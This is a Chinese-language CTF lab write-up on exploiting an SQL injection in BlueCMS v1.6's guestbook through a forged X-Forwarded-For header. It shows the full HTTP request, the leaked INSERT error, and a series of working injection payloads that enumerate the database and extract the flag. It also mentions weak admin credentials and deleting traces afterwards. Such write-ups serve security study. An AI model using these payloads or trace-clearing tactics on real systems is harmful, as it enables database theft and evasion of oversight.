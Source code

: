 ```yaml
---
title: "BlueCMS v1.6 存在 XFF 伪造漏洞"
date: 2024-02-15
description: "留言区获取 ip 的函数存在 SQL 注入点，在 POST 请求头伪造 XFF 可以实现注入"
tags: ["SQL 注入","后端漏洞"]
featured_image: ""
# images is optional, but needed for showing Twitter Card
images: []
categories: "sec"
comment: false
draft: false
---
```


## 概述

这是个靶场，提示 header 注入。打开网页的留言区发现了留言显示 ip 地址，因此想到伪造 X-FORWARDED-FOR。最终我们在留言区将留言作为回显拿到了 flag。

## 找到注入点

打开靶场后看到如下界面。

![sqli5](/images/sqli1/sqli5-5.png)

发现可以用弱口令登录管理员后台。

![sqli5](/images/sqli1/sqli5-6.png)

如果是真实场景我们可以考虑尝试在后台挖别的漏洞，但是考虑到靶场提示 flag 用到 http-header 做 sql 注入，我们考虑先回原来的网站尝试寻找能显示 ip 的地方。

（事后发现登录管理员权限也是有意义的，主要是在拿到 flag 之后删除痕迹，逃离肇事现场。）

回到原来的页面，找到留言区，发现提交留言会显示 ip 地址。我们用 burp 抓包后在请求里面人为添加一行 xff 进行伪造。

    POST /guest_book.php HTTP/1.1
    Host: 111.9.41.91:53005
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
    X-FORWARDED-FOR: '
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate, br
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 36
    Origin: http://111.9.41.91:53005
    Connection: close
    Referer: http://111.9.41.91:53005/guest_book.php
    Cookie: __tins__713776=%7B%22sid%22%3A%201708012726639%2C%20%22vd%22%3A%201%2C%20%22expires%22%3A%201708014526639%7D; __51cke__=; __51laig__=1; PHPSESSID=eigkieftqj4bb7qg3frjdtav35; admin=admin; pass=21232f297a57a5a743894a0e4a801fc3; detail=1
    Upgrade-Insecure-Requests: 1

    content=test&act=send&rid=&page_id=1

我们在 xff 处分别写单引号和 0.0.0.0，看到如下响应。

![sqli5](/images/sqli1/sqli5-3.png)

![sqli5](/images/sqli1/sqli5-4.png)

如上图所示，我们输入的 0.0.0.0 成功替换了网页上的 ip 显示，而单引号引起报错，我们还看到了网站的 insert 语句。现在我们确定 xff 存在注入点。

## 构造 payload

我们利用看到的报错提示构造 payload。

    Error：Query error:
    INSERT INTO blue_guest_book (id, rid, user_id, add_time, ip, content) 
			VALUES ('', '0', '1', '1708020440', '
    1',(select schema_name from information_schema.schemata limit 0,1)),('', '0', '1', '1708020440', '0
    ', 'test')<br><br>

我们的 payload 闭合了前后的引号和括号，理论上会将信息打印在留言区。考虑到留言区没有字数限制，直接使用 group_concat 进行打印。分别构造如下 payload。

    X-FORWARDED-FOR: 1',(select group_concat(schema_name) from information_schema.schemata)),('', '0', '1', '1708020440', '0

    X-FORWARDED-FOR: 1',(select group_concat(table_name) from information_schema.tables where table_schema='flag_db')),('', '0', '1', '1708020440', '0

    X-FORWARDED-FOR: 1',(select group_concat(column_name) from information_schema.columns where table_schema='flag_db' and table_name='flag')),('', '0', '1', '1708020440', '0

    X-FORWARDED-FOR: 1',(select value from flag_db.flag)),('', '0', '1', '1708020440', '0

看到如下成功的回显。

![sqli5](/images/sqli1/sqli5-0.png)

![sqli5](/images/sqli1/sqli5-2.png)

![sqli5](/images/sqli1/sqli5-1.png)

至此得到 flag=ywaq{IuzxdoJgVd}。

## 其他

一开始用 sqlmap 跑了半天没跑出来，其实这个靶场手工比脚本好很多。一方面是因为 sqlmap 只会缘木求鱼，而我们的 payload 是利用报错信息构造的，sqlmap 没这么智能。另一方面脚本会在页面留下大量垃圾数据，如果没有管理员权限还删不掉。